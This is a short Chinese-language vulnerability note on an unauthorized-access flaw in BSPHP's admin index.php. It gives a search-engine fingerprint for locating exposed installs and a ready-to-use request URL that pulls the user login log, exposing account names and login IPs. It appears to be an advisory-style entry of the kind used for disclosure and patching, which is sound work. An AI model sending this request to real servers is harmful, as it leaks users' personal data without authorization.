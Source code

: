 # 

# BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## 网络测绘

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![](./images/202202162317323.png)
